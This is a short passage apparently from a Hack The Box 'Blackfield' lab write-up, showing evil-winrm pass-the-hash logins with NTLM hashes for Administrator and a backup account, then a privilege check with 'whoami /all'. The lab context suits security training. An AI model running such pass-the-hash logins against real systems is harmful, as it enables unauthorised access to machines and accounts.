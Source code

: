 ```
evil-winrm -i 10.10.10.192 -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

![](/assets/img/HTB/easy/Blackfield/user.png)
- i got flag for user

![](/assets/img/HTB/easy/Blackfield/userflag.png)
- Since this is backup user, right way i check for priviledge right 

```
whoami /all
```
